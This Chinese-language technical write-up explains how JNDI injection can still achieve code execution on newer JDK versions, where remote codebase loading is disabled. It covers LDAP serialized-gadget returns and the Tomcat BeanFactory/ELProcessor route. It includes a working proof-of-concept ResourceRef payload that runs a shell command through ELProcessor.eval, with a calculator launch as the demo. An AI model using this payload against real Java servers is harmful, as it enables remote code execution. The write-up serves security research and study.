



# 高版本JAVA下JNDI的绕过思路
- - - -
## 前言
高版本JDK在RMI和LDAP的trustURLCodebase都做了限制，从默认允许远程加载ObjectFactory变成了不允许。RMI是在6u132, 7u122, 8u113版本开始做了限制，LDAP是 11.0.1, 8u191, 7u201, 6u211版本开始做了限制。
默认情况下JDK中`com.sun.naming.internal.VersionHelper12`的trustURLCodebase为false。


## 绕过思路
在高版本JAVA环境下无法加载远程恶意类，延展出两种加载本地classpath的类进行绕过的方法：
1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。


在`com.sun.jndi.ldap.LdapCtx#c_lookup`判断javaSerializedData是否为空，不为空进行反序列化。

在`com.sun.jndi.ldap.Obj#decodeObject`中先会进行反序列化，如果传入的是gadget会直接进行反序列化，执行命令。如果传入的是ReferenceRef的序列化对象，则会先进行反序列化对象，再进行Reference的实例化。

## TomcatByPass
在`javax.naming.spi.DirectoryManager#getObjectInstance`中获取到传入对象的factory执行
`javax.naming.spi.ObjectFactory#getObjectInstance`

这里可以利用tomcat中的`org.apache.naming.factory.BeanFactory#getObjectInstance`获取对象,执行方法，并可以传入的一个String参数。
这个类会把Reference对象的className属性作为类名去调用无参构造方法实例化一个对象。然后再从Reference对象的Addrs参数集合中取得 AddrType 是 forceString 的 String 参数。
刚好`javax.el.ELProcessor#eval`和`Groovy.lang.GroovyShell#evaluate` 这两个方法都是可以只传一个String参数就能够执行攻击代码，且依赖库比较常见所以被经常使用。

POC:
```
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "x=eval"));

ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','open -a calculator']).start()\")"));
return ref;
```
等价于
```
new javax.el.ELProcessor().eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','open -a calculator']).start()\")")

```


**总结**
利用tomcat中的`org.apache.naming.factory.BeanFactory`类获取到tomcat8( Tomcat7没有ELProcessor)中的ELProcessor对象，执行eval函数。


## 参考

[探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1405/)

[如何绕过高版本 JDK 的限制进行 JNDI 注入利用 (seebug.org)](https://paper.seebug.org/942/)
